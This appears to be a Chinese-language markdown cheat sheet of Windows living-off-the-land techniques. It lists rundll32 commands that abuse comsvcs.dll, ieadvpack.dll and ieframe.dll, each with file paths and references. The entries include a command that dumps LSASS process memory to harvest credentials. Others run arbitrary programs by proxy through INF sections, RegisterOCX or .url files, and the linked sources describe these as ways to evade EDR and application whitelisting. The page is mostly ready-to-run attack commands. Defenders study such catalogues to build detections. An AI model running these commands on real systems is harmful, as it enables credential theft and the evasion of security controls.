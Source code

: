 ## Comsvcs.dll
- 使用说明：

使用rundll32.exe执行Com+服务。

文件路径:
```
c:\windows\system32\comsvcs.dll
```
- 执行方式：
```
rundll32 C:\windows\system32\comsvcs.dll MiniDump "[LSASS_PID] dump.bin full"
```
- 参考资料：
```
https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
```

## Ieadvpack.dll
- 使用说明：
用于Internet Explorer的INF安装程序。 具有与advpack.dll相同的功能。

文件路径:
```
c:\windows\system32\ieadvpack.dll
c:\windows\syswow64\ieadvpack.dll
```
- 执行方式：
```
rundll32.exe ieadvpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
rundll32.exe ieadvpack.dll,LaunchINFSection c:\test.inf,,1,
rundll32.exe ieadvpack.dll,RegisterOCX test.dll
rundll32.exe ieadvpack.dll,RegisterOCX calc.exe
rundll32 ieadvpack.dll, RegisterOCX "cmd.exe /c calc.exe"
```
- 参考资料：
```
https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/
https://twitter.com/pabraeken/status/991695411902599168
https://twitter.com/0rbz_/status/974472392012689408
```

## Ieaframe.dll
- 使用说明：
Internet浏览器DLL，用于翻译HTML代码。

文件路径:
```
c:\windows\system32\ieframe.dll
c:\windows\syswow64\ieframe.dll
```
- 执行方式：
```
rundll32.exe ieframe.dll,OpenURL "C:\test\calc.url"
```
- 参考资料：
```
http://www.hexacorn.com/blog/2018/03/15/running-programs-via-proxy-jumping-on-a-edr-bypass-trampoline-part-5/
https://bohops.com/2018/03/17/abusing-exported-functions-and-exposed-dcom-interfaces-for-pass-thru-command-execution-and-lateral-movement/
https://twitter.com/bohops/status/997690405092290561
https://windows10dll.nirsoft.net/ieframe_dll.html
```
